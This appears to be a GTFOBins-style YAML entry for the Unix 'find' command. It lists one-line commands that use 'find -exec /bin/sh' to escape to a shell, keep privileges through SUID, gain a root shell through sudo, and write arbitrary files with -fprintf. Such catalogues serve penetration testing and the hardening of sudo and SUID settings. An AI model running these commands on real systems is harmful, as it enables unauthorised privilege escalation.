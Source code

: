 ```yaml
---
functions:
  shell:
    - code: find . -exec /bin/sh \; -quit
  suid:
    - code: ./find . -exec /bin/sh -p \; -quit
  sudo:
    - code: sudo find . -exec /bin/sh \; -quit
  file-write:
    - description: DATA is a format string, it supports some escape sequences.
      code: |
        FILE=file_to_write
        find / -fprintf "$FILE" DATA -quit
---
```


